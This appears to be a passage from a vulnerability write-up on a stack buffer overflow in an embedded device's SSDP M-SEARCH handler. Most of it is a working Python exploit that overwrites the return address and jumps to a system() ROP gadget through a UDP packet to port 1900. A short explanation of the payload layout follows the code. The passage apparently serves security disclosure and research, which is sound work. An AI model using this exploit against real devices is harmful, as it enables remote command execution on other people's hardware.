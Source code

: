 ## Exploitation 

By overflowing the stack buffer, an attacker can overwrite the saved return address and redirect execution to attacker-controlled shellcode or a carefully constructed ROP (Return Oriented Programming) chain. Given that the target device lacks modern exploit mitigations such as ASLR (Address Space Layout Randomization) and DEP (Data Execution Prevention), constructing a reliable exploit is feasible. 

```py 

payload = b'Z' * 284 
payload += b'A' * 4  # R4 
payload += b'B' * 4  # R5 - command str will go here 
payload += b'C' * 4  # R6 
payload += b'D' * 4  # R7 
payload += b'E' * 4  # R8 
payload += b'\xdc\xd4\x02'  # 0x2d4dc mov r0, r5 {var_9c} ; bl system 
 
 
def send_msearch_pwn(target_port=1900): 
    global payload 
    # Space nopsled might shift depending on len(cmd) (+1 incase null) 
    # This works alot of the time 
    ret = p32(0xbefff540 + (len(cmd.encode()) * 3) + 1) 
    payload = payload.replace(b'BBBB', ret) 
 
    message = ( 
                      b'M-SEARCH * HTTP/1.1\r\n' 
                      b'HOST:239.255.255.250:1900\r\n' 
                      b'MAN:"ssdp:discover"\r\n' 
                      b'MX:2\r\n' 
                      b'ST:uuid:schemas:device:' + payload + b':\x00\r\n' 
                                                             b'\r\n' 
              ) + p32(0xdeadbeef) + (b" " * 255) + cmd.encode()  # point to space nop sled for command processing 
 
    with socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP) as sock: 
        sock.settimeout(2) 
        sock.sendto(message, (host, target_port)) 

``` 
  

In this case, a suitable ROP gadget at 0x2d4dc (mov r0, r5 ; bl system) allows us to pivot execution to system() with a controlled argument. The payload is structured as follows: 
1. Padding: The buffer is filled with a controlled pattern ('Z' * 284) to align with the saved return address. 
2. Register Control: Overwrites R4, R5, R6, R7, and R8. 
3. ROP Gadget: Redirects execution to 0x2d4dc, where mov r0, r5 moves our controlled value into r0, followed by bl system, executing the attacker-supplied command. 

 